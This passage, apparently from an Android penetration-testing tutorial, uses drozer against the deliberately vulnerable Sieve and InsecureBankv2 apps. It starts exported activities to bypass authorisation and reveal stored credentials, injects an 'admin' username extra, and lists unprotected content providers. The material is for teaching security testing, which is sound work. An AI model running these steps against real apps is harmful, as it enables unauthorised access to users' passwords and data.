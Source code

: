 ```bash
dz> run app.activity.start --component com.withsecure.example.sieve com.withsecure.example.sieve.activity.PWList
```

- The package name of the app: `com.withsecure.example.sieve`
- The fully qualified activity name to start or in short class name: `com.withsecure.example.sieve.activity.PWList`

This formulates an appropriate Intent in the background, and delivers it to the system through the `startActivity` call. Sure enough, we have successfully bypassed the authorisation and are presented with a list of the user's credentials.

When calling app.activity.start, it is possible to build a much more complex intent. As with all drozer modules, you can request more usage information:

```bash
dz> run app.activity.start [-h] [--action ACTION] [--category CATEGORY [CATEGORY ...]] [--component PACKAGE COMPONENT] [--data-uri DATA_URI] [--extra TYPE KEY VALUE] [--flags FLAGS [FLAGS ...]] [--mimetype MIMETYPE]

  --action ACTION       specify the action to include in the Intent
  --category CATEGORY [CATEGORY ...]
                        specify the category to include in the Intent
  --component PACKAGE COMPONENT
                        specify the component name to include in the Intent
  --data-uri DATA_URI   specify a Uri to attach as data in the Intent
  --extra TYPE KEY VALUE
                        add an field to the Intent's extras bundle
  --flags FLAGS [FLAGS ...]
                        specify one-or-more flags to include in the Intent
  --mimetype MIMETYPE   specify the MIME type to send in the Intent
```


#### Send data to activity using Intent

```bash
# dz> run app.activity.start --component [...] --extra TYPE KEY VALUE
dz> run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.PostLogin --extra string uname admin
```

### Reading from Content Providers

Next, we can gather some more information about the content providers exported by the app.

```bash
dz> run app.provider.info -a com.withsecure.example.sieve
Attempting to run shell module
Package: com.withsecure.example.sieve
  Authority: com.withsecure.example.sieve.provider.DBContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.withsecure.example.sieve.provider.DBContentProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
    Path Permissions:
      Path: /Keys
        Type: PATTERN_LITERAL
        Read Permission: com.withsecure.example.sieve.READ_KEYS
        Write Permission: com.withsecure.example.sieve.WRITE_KEYS
  Authority: com.withsecure.example.sieve.provider.FileBackupProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.withsecure.example.sieve.provider.FileBackupProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
```